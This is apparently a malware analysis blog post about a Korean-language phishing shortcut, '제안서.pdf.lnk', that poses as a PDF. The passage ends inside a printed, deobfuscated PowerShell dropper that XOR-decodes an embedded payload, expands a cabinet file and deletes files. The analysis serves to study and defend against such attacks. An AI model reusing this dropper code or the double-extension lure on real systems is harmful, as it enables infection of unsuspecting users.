 Unzip the archive, and boom—you get **제안서.pdf.lnk**. That Korean word **"제안서"** means “proposal.” Sneaky, right? This is a classic social engineering starter. The LNK file uses a double `.pdf.lnk` extension, PDF file icon and a Korean name to lure non-technical users  possibly targeting a Korean-speaking audience.

I ran the LECmd tool to peek at the LNK’s metadata. Check out the screenshot:

![LECmd Output](/assets/images/blog1/image 1.png)

- First thing I noticed here is that It also uses `SwShowMinnoactive`, meaning when LNK file is executed it will open as minimized.
- **The Real Deal**: The command-line arguments show what this LNK is *actually* up to behind the scenes.

## Stage 2: PowerShell Payload

Once the `.lnk` file is triggered, the obfuscated PowerShell script kicks in. It’s messy at first glance—full of random variable names like `$knee`, `$fear`, `$policy`, `$model`, etc. Classic obfuscation strategy: confuse anyone manually inspecting it and dodge basic static detection.  Here’s the cleaned-up PS1 code:

```powershell
/c for /f "tokens=*" %f in ('dir /s /b %systemroot%\System32\WindowsPowershell\*.exe ^| findstr /i rshell.exe') do (if exist "%f" (%f "

function sister {
    param($title)
    $mystery = $title.substring(0,$title.length-4) + ''
    return $mystery
}

function trend {
    param($suppose)
    [System.IO.File]::Delete($suppose)
}

function stir {
    param($league,$mirror,$winner,$policy,$basket)
    $knee = New-Object System.IO.FileStream($league,[System.IO.FileMode]::Open,[System.IO.FileAccess]::Read)
    $knee.Seek($mirror,[System.IO.SeekOrigin]::Begin)
    $observe = $winner * 0x01
    $model = New-Object byte[] $winner
    $smooth = New-Object byte[] $observe
    $knee.Read($smooth,0,$observe)
    $knee.Close()
    $fear = 0
    while ($fear -lt $winner) {
        $model[$fear] = $smooth[$fear * 0x01] -bxor $policy
        $fear++
    }
    set-content $basket $model -Encoding Byte
}

function room {
    param($acquire, $mainly)
    expand $acquire -F:* $mainly
}

function would {
    $beauty = $env:public + '\' + 'documents'
    return $beauty
}

function similar {
```